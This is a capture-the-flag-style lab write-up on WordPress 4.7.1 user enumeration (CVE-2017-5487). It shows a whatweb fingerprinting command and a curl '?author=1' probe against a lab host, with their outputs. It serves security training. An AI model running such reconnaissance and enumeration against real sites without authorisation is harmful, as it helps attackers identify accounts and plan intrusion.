 #### Lab Environment

**WordPress RCE**

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be attacked remotely. User Enumeration vulnerabilities could be triggered even by unauthenticated users.

In the exercise below, <u>the attacker is not authenticated to the web application and needs to find a user enumeration attack to gain information about the users</u>.

<u>WordPress (4.7.1) is vulnerable to User Enumeration documented in CVE-2017-5487</u>.

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution

![Lab - WordPress RCE 1](./assets/08_cms_security_testing_lab_wordpress_rce_1.png)

`whatweb https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/`:
```
https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/ [200 OK] Apache[2.4.7], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[172.104.229.221], JQuery[1.12.4], MetaGenerator[WordPress 4.7.1], PHP[5.5.9-1ubuntu4.25], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[Target WordPress &#8211; Just another WordPress site], UncommonHeaders[link], WordPress[4.7.1],📌 X-Powered-By[PHP/5.5.9-1ubuntu4.25]
```

`curl -s -I -X GET 'https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/?author=1'`:
```
HTTP/2 200📌
content-type: text/html; charset=UTF-8
date: Thu, 05 Dec 2024 14:58:03 GMT
link: </wp-json/>; rel="https://api.w.org/"
server: Apache/2.4.7 (Ubuntu)
vary: Accept-Encoding
x-powered-by: PHP/5.5.9-1ubuntu4.25
```
